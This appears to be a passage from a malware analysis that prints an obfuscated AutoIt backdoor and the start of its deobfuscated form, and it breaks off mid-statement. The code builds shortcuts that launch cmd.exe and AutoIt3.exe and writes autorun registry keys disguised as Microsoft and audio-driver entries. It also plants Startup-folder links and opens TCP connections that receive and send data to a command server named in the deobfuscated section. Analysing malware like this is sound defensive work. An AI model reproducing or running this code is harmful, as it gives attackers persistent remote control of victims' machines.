	$blpspazzfimttyejdawgiepesmspmhduujqvoltlfuygpzlgnwlb = @ScriptDir & ChrW(132 - 40) & ChrW(120 - 43) & ChrW(105) & String("c") & "r" & ChrW(37 + 74) & ChrW(4 + 111) & ChrW(123 - 12) & "f" & ChrW(12 + 104) & "S" & "e" & "c" & ChrW(20 + 97) & ChrW(20 + 94) & "i" & "t" & ChrW(36 + 85) & ChrW(57 - 11) & "e" & ChrW(39 + 81) & "e" & ChrW(50 - 18) & @ScriptDir & String("\") & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk
	If FileExists(@ScriptDir & ChrW(27 + 65) & "M" & "i" & ChrW(130 - 31) & ChrW(130 - 16) & ChrW(153 - 42) & ChrW(130 - 15) & ChrW(112 - 1) & String("f") & "t" & ChrW(123 - 38) & ChrW(113 - 1) & ChrW(43 + 57) & ChrW(141 - 44) & ChrW(132 - 16) & String("e") & String(".") & "l" & String("n") & String("k")) = False Then
		FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", @ScriptDir & ChrW(27 + 65) & "M" & "i" & ChrW(130 - 31) & ChrW(130 - 16) & ChrW(153 - 42) & ChrW(130 - 15) & ChrW(112 - 1) & String("f") & "t" & ChrW(123 - 38) & ChrW(113 - 1) & ChrW(43 + 57) & ChrW(141 - 44) & ChrW(132 - 16) & String("e") & String(".") & "l" & String("n") & String("k"), "", String("/") & ChrW(147 - 48) & ChrW(74 - 42) & ChrW(19 + 96) & ChrW(12 + 104) & ChrW(19 + 78) & String("r") & String("t") & ChrW(21 + 11) & $blpspazzfimttyejdawgiepesmspmhduujqvoltlfuygpzlgnwlb & ChrW(44 + -12) & ChrW(38) & " " & "e" & ChrW(15 + 105) & ChrW(105) & ChrW(28 + 88))
	EndIf
	If FileExists(@ScriptDir & ChrW(27 + 65) & "M" & "i" & ChrW(130 - 31) & ChrW(130 - 16) & ChrW(153 - 42) & ChrW(130 - 15) & ChrW(112 - 1) & String("f") & "t" & ChrW(123 - 38) & ChrW(113 - 1) & ChrW(43 + 57) & ChrW(141 - 44) & ChrW(132 - 16) & String("e") & String(".") & "l" & String("n") & String("k")) = False Then
		FileCreateShortcut(@ScriptDir & String(String("\")) & ChrW(28 + 49) & String("i") & ChrW(20 + 79) & String("r") & ChrW(41 + 70) & String("s") & ChrW(111) & ChrW(140 - 38) & ChrW(117 - 1) & ChrW(83) & "e" & String("c") & "u" & String("r") & ChrW(105) & String("t") & ChrW(30 + 91) & ChrW(47 + -1) & ChrW(104 - 3) & String("x") & ChrW(138 - 37), @ScriptDir & ChrW(27 + 65) & "M" & "i" & ChrW(130 - 31) & ChrW(130 - 16) & ChrW(153 - 42) & ChrW(130 - 15) & ChrW(112 - 1) & String("f") & "t" & ChrW(123 - 38) & ChrW(113 - 1) & ChrW(43 + 57) & ChrW(141 - 44) & ChrW(132 - 16) & String("e") & String(".") & "l" & String("n") & String("k"), "", ChrW(57 - 10) & String("A") & ChrW(167 - 50) & ChrW(152 - 36) & ChrW(16 + 95) & ChrW(3 + 70) & ChrW(124 - 8) & String("3") & "E" & "x" & String("e") & ChrW(35 + 64) & String("u") & ChrW(142 - 26) & "e" & ChrW(113 - 30) & ChrW(17 + 82) & ChrW(118 - 4) & ChrW(142 - 37) & "p" & "t" & String(ChrW(48 - 16)) & @ScriptDir & String("\") & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk)
	EndIf
EndFunc

Func pdopzmetzkuzbrqhzoeumbhwurckkvjpcugoopapsrcaphhetqfi()
	$zmfxwlaehjlydtzjijusglanfhotalcrwcugcrydkpdvjacxzayc = @ScriptDir & ChrW(21 + 71) & "M" & ChrW(105) & ChrW(37 + 62) & ChrW(114) & ChrW(24 + 87) & ChrW(16 + 99) & ChrW(150 - 39) & ChrW(102) & String("t") & "S" & ChrW(101) & ChrW(99) & ChrW(4 + 113) & "r" & ChrW(138 - 33) & String("t") & ChrW(121) & ChrW(75 - 29) & "e" & ChrW(44 + 76) & "e" & ChrW(78 - 46) & ChrW(47) & "A" & ChrW(117) & "t" & String("o") & ChrW(35 + 38) & "t" & String("3") & ChrW(50 + 19) & ChrW(120) & String("e") & ChrW(16 + 83) & "u" & "t" & ChrW(114 - 13) & ChrW(128 - 45) & ChrW(3 + 96) & ChrW(33 + 81) & ChrW(105) & ChrW(112) & ChrW(1 + 115) & ChrW(8 + 24) & @ScriptDir & String("\") & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk
	$brunmrrowhdwhubbyrfplqhrieeeertznzpdigvlzkhdlhooxbyi = StringRegExpReplace($toypgraanpjlfwxjscarpmliszehlbquruimbscebztnxymoybci, ChrW(92) & ChrW(18 + 28) & String("[") & String("^") & String("\") & ChrW(50 - 4) & ChrW(39 + 53) & String("\") & ChrW(47) & ChrW(50 + 43) & ChrW(42) & "$", "")
	$vhqjlcehmlieoehhextrvtpajefzqqgcskdeifsfboynacphygja = @ScriptDir & ChrW(132 - 40) & ChrW(120 - 43) & ChrW(105) & String("c") & "r" & ChrW(37 + 74) & ChrW(4 + 111) & ChrW(123 - 12) & "f" & ChrW(12 + 104) & "S" & "e" & "c" & ChrW(20 + 97) & ChrW(20 + 94) & "i" & "t" & ChrW(36 + 85) & ChrW(57 - 11) & "e" & ChrW(39 + 81) & "e" & ChrW(50 - 18) & @ScriptDir & String("\") & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk
	$hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv = @ScriptDir & String("\") & String("M") & "i" & ChrW(12 + 87) & String("r") & ChrW(49 + 62) & ChrW(115) & ChrW(35 + 76) & ChrW(102) & ChrW(154 - 38) & String("C") & "M" & ChrW(76 - 8) & ChrW(53 - 7) & ChrW(26 + 82) & "n" & ChrW(107)
	If RegRead(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), $vcjuqioffbuxjhmrijmlbucfcfhjjcrkovnvyluomdhvzuybwwat) <> $hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv Then
		RegWrite(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), $vcjuqioffbuxjhmrijmlbucfcfhjjcrkovnvyluomdhvzuybwwat, "R" & ChrW(104 - 35) & ChrW(71) & String("_") & ChrW(92 - 9) & String("Z"), $hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv)
	EndIf
	If RegRead(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), $vcjuqioffbuxjhmrijmlbucfcfhjjcrkovnvyluomdhvzuybwwat) <> $hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv Then
		RegWrite(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), $vcjuqioffbuxjhmrijmlbucfcfhjjcrkovnvyluomdhvzuybwwat, "R" & ChrW(104 - 35) & ChrW(71) & String("_") & ChrW(92 - 9) & String("Z"), $hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv)
	EndIf
	If RegRead(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), ChrW(106 - 29) & "i" & ChrW(28 + 71) & ChrW(153 - 39) & ChrW(2 + 109) & "s" & ChrW(111) & "f" & String("t") & "O" & String("f") & ChrW(43 + 59) & String("i") & ChrW(131 - 32) & ChrW(116 - 15)) <> $hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv Then
		RegWrite(ChrW(72) & "K" & ChrW(69) & ChrW(89) & ChrW(116 - 21) & ChrW(76) & ChrW(79) & "C" & String("A") & ChrW(76) & ChrW(19 + 76) & ChrW(77) & String("A") & "C" & "H" & ChrW(73) & "N" & "E" & ChrW(92) & String("S") & ChrW(31 + 48) & ChrW(38 + 32) & String("T") & ChrW(87) & ChrW(94 - 29) & ChrW(82) & ChrW(96 - 27) & ChrW(117 - 25) & "M" & String("i") & String("c") & ChrW(24 + 90) & ChrW(39 + 72) & "s" & ChrW(49 + 62) & ChrW(102) & ChrW(125 - 9) & ChrW(141 - 49) & ChrW(87) & ChrW(109 - 4) & ChrW(110) & ChrW(32 + 68) & String("o") & String("w") & ChrW(150 - 35) & "\" & "C" & ChrW(47 + 70) & "r" & "r" & "e" & "n" & ChrW(157 - 41) & ChrW(86) & ChrW(101) & ChrW(42 + 72) & ChrW(122 - 7) & String("i") & "o" & "n" & ChrW(31 + 61) & "R" & ChrW(117) & ChrW(110), ChrW(106 - 29) & "i" & ChrW(28 + 71) & ChrW(153 - 39) & ChrW(2 + 109) & "s" & ChrW(111) & "f" & String("t") & "O" & String("f") & ChrW(43 + 59) & String("i") & ChrW(131 - 32) & ChrW(116 - 15), "R" & ChrW(104 - 35) & ChrW(71) & String("_") & ChrW(92 - 9) & String("Z"), @ScriptDir & ChrW(27 + 65) & "M" & "i" & ChrW(130 - 31) & ChrW(130 - 16) & ChrW(153 - 42) & ChrW(130 - 15) & ChrW(112 - 1) & String("f") & "t" & ChrW(123 - 38) & ChrW(113 - 1) & ChrW(43 + 57) & ChrW(141 - 44) & ChrW(132 - 16) & String("e") & String(".") & "l" & String("n") & String("k"))
	EndIf
	If RegRead(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), ChrW(67) & ChrW(116 - 5) & ChrW(123 - 9) & String("t") & ChrW(139 - 42) & ChrW(4 + 106) & ChrW(97)) <> $hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv Then
		RegWrite(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), ChrW(67) & ChrW(116 - 5) & ChrW(123 - 9) & String("t") & ChrW(139 - 42) & ChrW(4 + 106) & ChrW(97), "R" & ChrW(104 - 35) & ChrW(71) & String("_") & ChrW(92 - 9) & String("Z"), @ScriptDir & ChrW(27 + 65) & "M" & "i" & ChrW(130 - 31) & ChrW(130 - 16) & ChrW(153 - 42) & ChrW(130 - 15) & ChrW(112 - 1) & String("f") & "t" & ChrW(123 - 38) & ChrW(113 - 1) & ChrW(43 + 57) & ChrW(141 - 44) & ChrW(132 - 16) & String("e") & String(".") & "l" & String("n") & String("k"))
	EndIf
	If RegRead(String("H") & ChrW(112 - 37) & ChrW(69) & String("Y") & "_" & ChrW(102 - 26) & ChrW(89 - 10) & ChrW(105 - 38) & String("A") & ChrW(105 - 29) & ChrW(95) & "M" & "A" & "C" & ChrW(23 + 49) & ChrW(107 - 34) & ChrW(22 + 56) & ChrW(69) & String("\") & ChrW(98 - 15) & ChrW(19 + 92) & "f" & ChrW(19 + 97) & ChrW(6 + 113) & String("a") & ChrW(17 + 97) & "e" & ChrW(123 - 31) & "M" & ChrW(18 + 87) & String("c") & ChrW(114) & ChrW(159 - 48) & ChrW(115) & String("o") & String("f") & ChrW(135 - 19) & ChrW(92) & ChrW(49 + 38) & ChrW(144 - 39) & "n" & ChrW(32 + 68) & ChrW(111) & ChrW(27 + 92) & ChrW(115) & ChrW(92) & ChrW(21 + 46) & "u" & ChrW(26 + 88) & ChrW(27 + 87) & ChrW(11 + 90) & ChrW(110) & ChrW(18 + 98) & ChrW(39 + 47) & "e" & "r" & ChrW(157 - 42) & "i" & ChrW(122 - 11) & ChrW(131 - 21) & ChrW(22 + 70) & String("R") & ChrW(138 - 21) & ChrW(127 - 17), ChrW(72) & ChrW(108 - 40) & "A" & ChrW(117) & ChrW(145 - 45) & ChrW(9 + 96) & "o") <> $hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv Then
		RegWrite(String("H") & ChrW(112 - 37) & ChrW(69) & String("Y") & "_" & ChrW(102 - 26) & ChrW(89 - 10) & ChrW(105 - 38) & String("A") & ChrW(105 - 29) & ChrW(95) & "M" & "A" & "C" & ChrW(23 + 49) & ChrW(107 - 34) & ChrW(22 + 56) & ChrW(69) & String("\") & ChrW(98 - 15) & ChrW(19 + 92) & "f" & ChrW(19 + 97) & ChrW(6 + 113) & String("a") & ChrW(17 + 97) & "e" & ChrW(123 - 31) & "M" & ChrW(18 + 87) & String("c") & ChrW(114) & ChrW(159 - 48) & ChrW(115) & String("o") & String("f") & ChrW(135 - 19) & ChrW(92) & ChrW(49 + 38) & ChrW(144 - 39) & "n" & ChrW(32 + 68) & ChrW(111) & ChrW(27 + 92) & ChrW(115) & ChrW(92) & ChrW(21 + 46) & "u" & ChrW(26 + 88) & ChrW(27 + 87) & ChrW(11 + 90) & ChrW(110) & ChrW(18 + 98) & ChrW(39 + 47) & "e" & "r" & ChrW(157 - 42) & "i" & ChrW(122 - 11) & ChrW(131 - 21) & ChrW(22 + 70) & String("R") & ChrW(138 - 21) & ChrW(127 - 17), ChrW(72) & ChrW(108 - 40) & "A" & ChrW(117) & ChrW(145 - 45) & ChrW(9 + 96) & "o", "R" & ChrW(104 - 35) & ChrW(71) & String("_") & ChrW(92 - 9) & String("Z"), $zmfxwlaehjlydtzjijusglanfhotalcrwcugcrydkpdvjacxzayc)
	EndIf
	If RegRead(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), ChrW(10 + 70) & ChrW(8 + 106) & ChrW(105) & String("n") & ChrW(135 - 19) & "D" & ChrW(114) & "i" & ChrW(118) & String("e") & ChrW(114)) <> $hhncrpbgveqwgfldaczzfnpgudbgpycjggulwbosdkhwycgupkgv Then
		RegWrite(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), ChrW(10 + 70) & ChrW(8 + 106) & ChrW(105) & String("n") & ChrW(135 - 19) & "D" & ChrW(114) & "i" & ChrW(118) & String("e") & ChrW(114), "R" & ChrW(104 - 35) & ChrW(71) & String("_") & ChrW(92 - 9) & String("Z"), $zmfxwlaehjlydtzjijusglanfhotalcrwcugcrydkpdvjacxzayc)
	EndIf
	If FileExists(@StartupCommonDir & String("\") & $brunmrrowhdwhubbyrfplqhrieeeertznzpdigvlzkhdlhooxbyi & ChrW(50 - 4) & ChrW(139 - 31) & ChrW(110) & ChrW(107)) = False Then
		FileCreateShortcut(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", @StartupCommonDir & String("\") & $vcjuqioffbuxjhmrijmlbucfcfhjjcrkovnvyluomdhvzuybwwat & ChrW(50 - 4) & ChrW(139 - 31) & ChrW(110) & ChrW(107), "", String("/") & ChrW(147 - 48) & ChrW(74 - 42) & ChrW(19 + 96) & ChrW(12 + 104) & ChrW(19 + 78) & String("r") & String("t") & ChrW(21 + 11) & $vhqjlcehmlieoehhextrvtpajefzqqgcskdeifsfboynacphygja & ChrW(44 + -12) & ChrW(38) & " " & "e" & ChrW(15 + 105) & ChrW(105) & ChrW(28 + 88))
	EndIf
	If FileExists(@StartupCommonDir & String("\") & String("M") & ChrW(145 - 40) & "c" & "r" & ChrW(114 - 3) & "s" & ChrW(135 - 24) & String("f") & ChrW(166 - 50) & ChrW(85) & String("p") & String("d") & ChrW(41 + 56) & ChrW(30 + 86) & ChrW(112 - 11) & "." & ChrW(154 - 46) & ChrW(110) & ChrW(156 - 49)) = False Then
		FileCreateShortcut(@ScriptDir & String(String("\")) & ChrW(28 + 49) & String("i") & ChrW(20 + 79) & String("r") & ChrW(41 + 70) & String("s") & ChrW(111) & ChrW(140 - 38) & ChrW(117 - 1) & ChrW(83) & "e" & String("c") & "u" & String("r") & ChrW(105) & String("t") & ChrW(30 + 91) & ChrW(47 + -1) & ChrW(104 - 3) & String("x") & ChrW(138 - 37), @StartupCommonDir & String("\") & String("M") & ChrW(145 - 40) & "c" & "r" & ChrW(114 - 3) & "s" & ChrW(135 - 24) & String("f") & ChrW(166 - 50) & ChrW(85) & String("p") & String("d") & ChrW(41 + 56) & ChrW(30 + 86) & ChrW(112 - 11) & "." & ChrW(154 - 46) & ChrW(110) & ChrW(156 - 49), "", ChrW(57 - 10) & String("A") & ChrW(167 - 50) & ChrW(152 - 36) & ChrW(16 + 95) & ChrW(3 + 70) & ChrW(124 - 8) & String("3") & "E" & "x" & String("e") & ChrW(35 + 64) & String("u") & ChrW(142 - 26) & "e" & ChrW(113 - 30) & ChrW(17 + 82) & ChrW(118 - 4) & ChrW(142 - 37) & "p" & "t" & String(ChrW(48 - 16)) & @ScriptDir & String("\") & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk)
	EndIf
	If @error Then
	EndIf
EndFunc

Func vgmovrvjjuidbgwhmbqjnpauyhhmjxquqasvirrwuqfxizyilzss()
	If $rbypnqzvtwjxyxdxymfhjxzhgvdecqndtvznepbrfunuhstsqsyq < 1 Then
		$ejeluzphspscvwarxilawchgwhrytnceafuxnnfxaqbeazwqzatr = 1
		Return -1
	EndIf
	If @error Then
	EndIf
	$hkutrhhnotrycgqzkagzofwuethswgperhdwmctptafiujtsmhkp = TCPRecv($rbypnqzvtwjxyxdxymfhjxzhgvdecqndtvznepbrfunuhstsqsyq, 1024, 0)
	If @error Then
		$ejeluzphspscvwarxilawchgwhrytnceafuxnnfxaqbeazwqzatr = 1
		Return -1
	EndIf
	$mdkyphoybroscebnlbesywpuytnrnesroeepieqgsrqsptqxdkkw &= $hkutrhhnotrycgqzkagzofwuethswgperhdwmctptafiujtsmhkp
	If StringInStr($mdkyphoybroscebnlbesywpuytnrnesroeepieqgsrqsptqxdkkw, $nipcbxpmhqnfnobrddekcozeadfwlaztuiqspsvpwsoldvrkyemu) Then
		$eggbnanyzoqhdmhvctmhgqgoanywzpgowazkbahmpvodjxdhcyps = StringSplit($mdkyphoybroscebnlbesywpuytnrnesroeepieqgsrqsptqxdkkw, $nipcbxpmhqnfnobrddekcozeadfwlaztuiqspsvpwsoldvrkyemu)
		$hkutrhhnotrycgqzkagzofwuethswgperhdwmctptafiujtsmhkp = $eggbnanyzoqhdmhvctmhgqgoanywzpgowazkbahmpvodjxdhcyps[1]
		$vcinaraaaqyjhcldnwualarkabfdirubamtsrmjjbhlyxgvgmaue = StringInStr($mdkyphoybroscebnlbesywpuytnrnesroeepieqgsrqsptqxdkkw, $nipcbxpmhqnfnobrddekcozeadfwlaztuiqspsvpwsoldvrkyemu)
		$vcinaraaaqyjhcldnwualarkabfdirubamtsrmjjbhlyxgvgmaue += StringLen(String($nipcbxpmhqnfnobrddekcozeadfwlaztuiqspsvpwsoldvrkyemu))
		$dogukylzmxqjwwjvirmankyeotnvfyqiwpxlhyiszkxerbcawaxv = StringLen($mdkyphoybroscebnlbesywpuytnrnesroeepieqgsrqsptqxdkkw)
		$mdkyphoybroscebnlbesywpuytnrnesroeepieqgsrqsptqxdkkw = StringMid($mdkyphoybroscebnlbesywpuytnrnesroeepieqgsrqsptqxdkkw, $vcinaraaaqyjhcldnwualarkabfdirubamtsrmjjbhlyxgvgmaue, $dogukylzmxqjwwjvirmankyeotnvfyqiwpxlhyiszkxerbcawaxv - $vcinaraaaqyjhcldnwualarkabfdirubamtsrmjjbhlyxgvgmaue)
		Return $hkutrhhnotrycgqzkagzofwuethswgperhdwmctptafiujtsmhkp
	EndIf
	Return ""
EndFunc

Func yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk($eggbnanyzoqhdmhvctmhgqgoanywzpgowazkbahmpvodjxdhcyps)
	If @error Then
	EndIf
	$eggbnanyzoqhdmhvctmhgqgoanywzpgowazkbahmpvodjxdhcyps = StringReplace($eggbnanyzoqhdmhvctmhgqgoanywzpgowazkbahmpvodjxdhcyps, $nipcbxpmhqnfnobrddekcozeadfwlaztuiqspsvpwsoldvrkyemu, "|")
	TCPSend($rbypnqzvtwjxyxdxymfhjxzhgvdecqndtvznepbrfunuhstsqsyq, $eggbnanyzoqhdmhvctmhgqgoanywzpgowazkbahmpvodjxdhcyps & $nipcbxpmhqnfnobrddekcozeadfwlaztuiqspsvpwsoldvrkyemu)
	If @error Then
		$ejeluzphspscvwarxilawchgwhrytnceafuxnnfxaqbeazwqzatr = 1
		Return 0
	Else
		Return 1
	EndIf
EndFunc

Func axhehxxafrgmhqherstchiuehcfrjrmjdqigprnjmsljwafbkpcu()
	$ejeluzphspscvwarxilawchgwhrytnceafuxnnfxaqbeazwqzatr = 0
	TCPCloseSocket($rbypnqzvtwjxyxdxymfhjxzhgvdecqndtvznepbrfunuhstsqsyq)
	If @error Then
	EndIf
	TCPShutdown()
	If @error Then
	EndIf
	TCPStartup()
	If @error Then
	EndIf
	$rbypnqzvtwjxyxdxymfhjxzhgvdecqndtvznepbrfunuhstsqsyq = -1
	$rbypnqzvtwjxyxdxymfhjxzhgvdecqndtvznepbrfunuhstsqsyq = TCPConnect(TCPNameToIP($dcznysrlakdhbtfenvsppoltilqrjiifqrjqpmwwwxpoovwmcgzf), $arapqeencactbyqjiooaywsrywfooepbidezquajhjtwvwmqemdn)
	If @error Then
	EndIf
	$ejeluzphspscvwarxilawchgwhrytnceafuxnnfxaqbeazwqzatr = 0
EndFunc
```

<br/>

### Deobfuscated script

```
Global $susp_domain_1 = "googleads.publicvm.com"
Global $int_223 = 223
Global $string_C:\MicrosoftSecurity = "C:\MicrosoftSecurity"
Global $susp_file_lnk_1 = "MicrosoftCMD.lnk"
Global $string_microsoft = "Microsoft"
Global $string_microsoftsecurity = "Microsoft Security"
Global $string_microsoftsecurity_exe = "MicrosoftSecurity.exe"
Global $int_4 = 4
Global $string_vbs = "vbs"
Local $string_zeus = "Zeus"
$string_zeus &= "_" & Hex(DriveGetSerial(@HomeDrive))
Global $string_0.4x = "0.4x"
If FileExists("C:\MicrosoftSecurity/Microsoft.lnk") Then
	$string_0.4x = "0.4x Usb"
EndIf
$string_Microsoft.a3x = "Microsoft.a3x"
$int_0 = 0
$string_\r\n = "\r\n"
$string_0LIONW0 = "0LIONW0"
$int_0 = 0
$int_-1 = -1
If @ScriptDir <> $string_C:\MicrosoftSecurity AND $int_4 = 4 Then
	If $string_vbs = "exe" Then
